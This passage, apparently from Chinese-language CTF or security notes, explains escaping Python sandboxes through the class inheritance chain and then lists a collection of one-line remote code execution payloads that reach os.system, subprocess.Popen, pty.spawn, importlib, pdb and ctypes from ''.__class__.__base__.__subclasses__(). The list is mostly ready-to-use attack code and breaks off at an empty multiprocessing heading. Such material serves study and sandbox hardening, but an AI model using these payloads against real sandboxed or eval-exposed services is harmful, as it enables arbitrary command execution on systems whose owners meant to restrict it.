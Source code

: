 这种情况下我们就需要利用 python 继承链来绕过，其步骤简单来说，就是通过 python 继承链获取内置类, 然后通过这些内置类获取到敏感方法例如 os.system 然后再进行利用。

具体原理可见：[Python沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/#%E8%BF%87%E6%BB%A4-globals)

常见的一些 payload 如下:
#### RCE
```py
# os
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_wrap_close"][0]["system"]("ls")

# subprocess 
[ x for x in ''.__class__.__base__.__subclasses__() if x.__name__ == 'Popen'][0]('ls')

# builtins
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_GeneratorContextManagerBase" and "os" in x.__init__.__globals__ ][0]["__builtins__"]

# help
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_GeneratorContextManagerBase" and "os" in x.__init__.__globals__ ][0]["__builtins__"]['help']

[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_wrap_close"][0]['__builtins__']

#sys
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("ls")

[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'_sitebuiltins." in str(x) and not "_Helper" in str(x) ][0]["sys"].modules["os"].system("ls")

#commands (not very common)
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "commands" in x.__init__.__globals__ ][0]["commands"].getoutput("ls")

#pty (not very common)
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "pty" in x.__init__.__globals__ ][0]["pty"].spawn("ls")

#importlib
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "importlib" in x.__init__.__globals__ ][0]["importlib"].import_module("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "importlib" in x.__init__.__globals__ ][0]["importlib"].__import__("os").system("ls")

#imp
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'imp." in str(x) ][0]["importlib"].import_module("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'imp." in str(x) ][0]["importlib"].__import__("os").system("ls")

#pdb
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "pdb" in x.__init__.__globals__ ][0]["pdb"].os.system("ls")

# ctypes
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "builtins" in x.__init__.__globals__ ][0]["builtins"].__import__('ctypes').CDLL(None).system('ls /'.encode())

# multiprocessing
```
